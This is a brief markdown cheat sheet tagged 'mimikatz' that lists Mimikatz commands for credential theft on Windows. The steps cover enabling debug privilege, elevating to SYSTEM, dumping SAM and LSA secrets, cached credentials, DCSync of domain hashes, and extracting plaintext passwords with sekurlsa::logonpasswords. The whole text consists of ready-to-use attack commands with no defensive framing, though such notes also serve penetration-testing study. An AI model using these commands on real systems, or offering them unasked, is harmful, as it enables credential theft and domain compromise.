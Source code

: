 ```yaml
---
tags: mimikatz
---
```

- Check if "SeDebugPrivilege" right enabled and obtained SYSTEM user privs
	- `privilege::debug`
- Elevate to SYSTEM user privs
	- `token::elevate`
- Extract NTLM hash from SAM
	- `lsadump::sam`
- Dump LSA secrets from registries
	- `lsadump::secrets`
- Extract hashes from memory by asking LSA server
	- `lsadump::lsa /patch`
- Extract cached creds (cannot do PTH attack)
	- `lsadump::cache`
- Extract NTLM hash from other user in domain
	- `lsadump::dcsync /user:{DOMAIN}\{USERNAME}` or `lsadump::dcsync /all`
- Extract plaintext passwords and password hashes from all sources
	- `sekurlsa::logonpasswords`